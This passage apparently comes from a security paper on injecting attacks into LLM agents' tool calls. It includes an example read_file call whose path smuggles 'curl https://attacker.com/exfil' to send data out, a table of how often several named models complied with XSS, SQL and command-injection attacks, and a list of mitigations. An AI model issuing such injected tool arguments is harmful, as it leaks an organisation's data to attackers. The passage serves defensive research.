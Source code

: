 Result: The LLM agent invokes an call to a tool that will exfiltrate sensitive data from the organization.

Tool-Hack Example:
Direct argument manipulation:
```json
{
  "tool": "read_file",
  "args": {
    "path": "notes.txt; curl https://attacker.com/exfil"
  }
}
```

Result: The agent attempts command injection, exfiltrating data.

#### LLM Compliance vs Refusal Results

| Model                  | Attack Type | Total | Complied | Refused |
|------------------------|-------------|-------|----------|---------|
| **Claude-3-Opus**      | XSS         | 18    | 18 (100.0%) | 0 |
|                        | SQL         | 13    | 13 (100.0%) | 0 |
|                        | CMD         | 16    | 16 (100.0%) | 0 |
| **Gemini-2.5-Flash**   | XSS         | 18    |  0 (0.0%)   | 18 |
|                        | SQL         | 13    |  0 (0.0%)   | 13 |
|                        | CMD         | 16    |  0 (0.0%)   | 16 |
| **GPT-4o**             | XSS         | 18    | 18 (100.0%) | 0 |
|                        | SQL         | 13    | 13 (100.0%) | 0 |
|                        | CMD         | 16    | 16 (100.0%) | 0 |

*Upon investigation, all of Gemini's tool calls were blocked by a pre-emptive security filter.* 

*Note: the use of a small sample size is due to legal implications of disseminating dual use technology, which this paper refers throughout.*


### 2.3 Mitigation Strategies

1. Enforce incoming data-structure calls ("No malformed data with empty values").

2. Reject unknown tool calls at the API level.

3. Rely on parameterized, not string-based, execution for all tools.

4. Fuzz and test agent interfaces with malicious payloads.

| Attack                  | Vector                                                           | Mitigation                                              |
| ----------------------- | ---------------------------------------------------------------- | ------------------------------------------------------- |
| **Tool‑Hijack (DSI‑S)** | Partial JSON completion injects extra fields (e.g. exfil fields) | JSON‑schema validation; reject empty/malformed values   |
| **Tool‑Hack (DSI‑A)**   | Argument manipulation (e.g. `path: "notes.txt; curl …"`)         | Parameterized tool calls; strict parsing & sanitization |
